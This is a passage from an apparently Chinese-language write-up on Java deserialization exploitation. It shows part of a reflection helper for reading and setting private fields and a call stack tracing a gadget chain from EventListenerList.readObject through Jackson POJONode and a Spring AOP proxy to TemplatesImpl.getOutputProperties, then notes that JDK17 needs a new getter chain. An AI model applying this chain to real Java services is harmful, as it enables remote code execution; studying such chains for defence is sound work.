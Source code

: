 ```java
                field.setAccessible(true);
            else if ( clazz.getSuperclass() != null )
                field = getField(clazz.getSuperclass(), fieldName);

            return field;
        }
        catch ( NoSuchFieldException e ) {
            if ( !clazz.getSuperclass().equals(Object.class) ) {
                return getField(clazz.getSuperclass(), fieldName);
            }
            throw e;
        }
    }
    public static Object getFieldValue(final Object obj, final String fieldName) throws Exception {
        final Field field = getField(obj.getClass(), fieldName);
        return field.get(obj);
    }
}
```
调用栈：
```
getOutputProperties:507, TemplatesImpl (com.sun.org.apache.xalan.internal.xsltc.trax)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeJoinpointUsingReflection:344, AopUtils (org.springframework.aop.support)
invoke:208, JdkDynamicAopProxy (org.springframework.aop.framework)
getOutputProperties:-1, $Proxy0 (com.sun.proxy)
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
serializeAsField:689, BeanPropertyWriter (com.fasterxml.jackson.databind.ser)
serializeFields:774, BeanSerializerBase (com.fasterxml.jackson.databind.ser.std)
serialize:178, BeanSerializer (com.fasterxml.jackson.databind.ser)
defaultSerializeValue:1142, SerializerProvider (com.fasterxml.jackson.databind)
serialize:115, POJONode (com.fasterxml.jackson.databind.node)
serialize:39, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
serialize:20, SerializableSerializer (com.fasterxml.jackson.databind.ser.std)
_serialize:480, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serializeValue:319, DefaultSerializerProvider (com.fasterxml.jackson.databind.ser)
serialize:1518, ObjectWriter$Prefetch (com.fasterxml.jackson.databind)
_writeValueAndClose:1219, ObjectWriter (com.fasterxml.jackson.databind)
writeValueAsString:1086, ObjectWriter (com.fasterxml.jackson.databind)
nodeToString:30, InternalNodeMapper (com.fasterxml.jackson.databind.node)
toString:59, BaseJsonNode (com.fasterxml.jackson.databind.node)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
toString:462, AbstractCollection (java.util)
toString:1003, Vector (java.util)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
toString:258, CompoundEdit (javax.swing.undo)
toString:621, UndoManager (javax.swing.undo)
valueOf:2994, String (java.lang)
append:131, StringBuilder (java.lang)
add:187, EventListenerList (javax.swing.event)
readObject:277, EventListenerList (javax.swing.event)
```
## server
由于环境是JDK17的，那么TemplatesImpl就无法利用了，需要找一条新的getter利用链